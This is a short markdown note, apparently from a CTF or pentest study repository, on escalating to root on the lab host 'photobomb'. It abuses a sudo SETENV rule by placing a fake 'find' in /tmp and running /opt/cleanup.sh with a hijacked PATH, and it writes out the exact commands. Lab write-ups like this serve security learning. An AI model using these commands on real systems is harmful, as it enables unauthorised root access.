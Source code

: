 # sudo -l 

## Case 1 - 

$sudo -l 

Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

-----------------------------------------------------

If we see a SETENV in that case we need to - 

    a. cat the file /opt/cleanup.sh
    b. see which command in that doesnot have an absolute path set
    c. In our case, find didn't have an absolute path set.
    d. make an executable file in /tmp named find.  -- echo "bash" > /tmp/find && chmod +x /tmp/find
    e. Now set the PATH environment variable to /tmp and also execute the cleanup.sh script to priv esc
        
         sudo PATH=/tmp:$PATH /opt/cleanup.sh
         
   

